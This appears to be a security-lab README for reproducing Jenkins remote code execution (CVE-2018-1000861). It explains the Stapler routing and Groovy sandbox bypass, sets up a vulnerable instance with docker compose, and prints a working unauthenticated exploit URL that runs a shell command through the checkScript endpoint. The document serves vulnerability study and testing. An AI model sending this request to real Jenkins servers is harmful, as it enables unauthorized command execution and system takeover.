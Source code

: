 # Jenkins Remote Code Execution (CVE-2018-1000861)

[中文版本(Chinese version)](README.zh-cn.md)

Jenkins is a popular open-source automation server.

A code execution vulnerability exists in the Stapler web framework used by Jenkins 2.153 and earlier, LTS 2.138.3 and earlier. In `stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java`, attackers can invoke some methods on Java objects by accessing crafted URLs that were not intended to be invoked this way.

Through this vulnerability, multiple exploit chains can be discovered. The most severe one allows unauthenticated users to execute arbitrary commands by bypassing the Groovy sandbox: Before Jenkins executes Groovy scripts in the sandbox, it first checks for syntax errors. This checking process occurs outside the sandbox, allowing attackers to execute arbitrary commands through Meta-Programming during this validation step.

References:

- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html

## Environment Setup

Execute the following command to start Jenkins 2.138 with the vulnerable plugins pre-installed:

```
docker compose up -d
```

After the server is fully started, visit `http://your-ip:8080` to access Jenkins. No manual installation is required.

## Vulnerability Reproduction

Using @orangetw's [one-click POC script](https://github.com/orangetw/awesome-jenkins-rce-2019), you can execute commands by sending the following request:

```
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```

![Sending the exploit request](2.png)

The successful creation of `/tmp/success` confirms the remote code execution:

![Verification of command execution](3.png)
